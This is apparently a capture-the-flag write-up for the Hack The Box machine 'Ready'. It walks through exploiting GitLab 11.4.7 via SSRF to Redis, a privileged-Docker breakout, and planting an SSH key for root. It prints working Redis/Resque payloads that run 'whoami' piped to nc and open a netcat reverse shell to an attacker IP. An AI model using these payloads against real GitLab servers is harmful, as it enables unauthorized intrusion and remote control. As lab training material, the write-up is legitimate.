

Ready is a Linux machine. The ip of the box is 10.10.10.220.

# Recon

I starting with *nmap* scan `nmap -sC -Sv -oA nmap/ready 10.10.10.220`


And I found two services:
- *ssh*
- *webserver nginx*(5080)

On port 5080 we got gitlab login page.


I check for gitlab version and found that the running version is `11.4.7`. So i found this [article](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/) that explain the vulnerabilities of this version and a exploit.


# User
So i created a new user on gitlab and checked if the instance was vulnerable.

Step:

- Created a new project from **repo by url** and added in **Git repository URL**  `git://[0:0:0:0:0:ffff:127.0.0.1]:6379/`


- Intercepted with `burp` and added the following payload

```ruby
multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'| whoami |nc 10.10.14.181 9090 \').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
```


The instance is vulnerable so create a new project and this time i added the following payload for the rev shell

```ruby
multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|nc 10.10.14.181 9090 -e /bin/bash \').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
```


Now i go on `dude` home and take the user flag.


# Root
I found in `/opt/backup/` two interesting files `gitlab.rb` and `docker-compose.yml`.

In `gitlab.rb` there is a password.


and in the `docker-compose.yml` there is the configuration of running container.


The password found is for `root` user of container.




while in the `docker-compose` there is `privileged` setted that make the docker instance vulnerable. Major info on this are on this [page](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout).

So I mounted the filesystem on my new directory


So now i can navigate on entire filesystem and can take the root flag.


##Bouns - SSH
For full root priv can add the ssh key in the `root/.ssh`

- Generate the pair of key
 


- copy the `pub_key`  in  `/root/.ssh/authorized_keys` of the remote host


Now can access with ssh as `root`.


